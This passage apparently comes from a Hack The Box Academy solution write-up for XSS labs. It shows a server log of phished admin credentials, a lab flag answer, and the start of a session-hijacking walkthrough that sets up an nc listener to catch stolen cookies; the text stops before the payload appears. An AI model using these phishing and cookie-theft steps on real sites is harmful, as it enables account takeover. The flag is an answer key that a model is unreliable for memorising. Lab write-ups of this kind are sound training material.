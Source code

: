 After clicking on the "Send" button, students will notice that the PHP server has grabbed the credentials `admin:p1zd0nt57341myp455`:

```javascript
[Mon Jul 18 05:42:39 2022] 10.129.120.157:57196 Accepted
[Mon Jul 18 05:42:39 2022] 10.129.120.157:57196 [302]: GET /?username=admin&password=p1zd0nt57341myp455&submit=Login
[Mon Jul 18 05:42:39 2022] 10.129.120.157:57196 Closing
```

At last, with the harvested credentials, students need to navigate to `/phishing/login.php` and log in to find the flag:

![[HTB Solutions/CBBH/z. images/b80c2c3f57f220d303f1e4036186f7bf_MD5.jpg]]

![[HTB Solutions/CBBH/z. images/c9f10e488947562a62f773f74f3fe220_MD5.jpg]]

Answer: `HTB{r3f13c73d_cr3d5_84ck_2_m3}`

# Session Hijacking

## Question 1

### "Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag."

After spawning the target machine, students first need to navigate to the `/hijacking` directory, `http://PWNIP/hijacking/`:

![[HTB Solutions/CBBH/z. images/5ebf6098127b406fb52fb93a6c81d9ca_MD5.jpg]]

Students then need to start an `nc` listener using a port number other than 80, since it is already in use in Pwnbox:

Code: shell

```shell
nc -nvlp PWNPO
```

```javascript
┌─[us-academy-1]─[10.10.14.55]─[htb-ac413848@pwnbox-base]─[/tmp/tmpserver]
└──╼ [★]$ nc -nvlp 8080

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
```

Thereafter, students need to test all the parameters of the web page with XSS payloads to see which of them is vulnerable and makes a call to the `nc` listener; students will find that the following payload works when provided to the "Profile Picture URL" parameter:
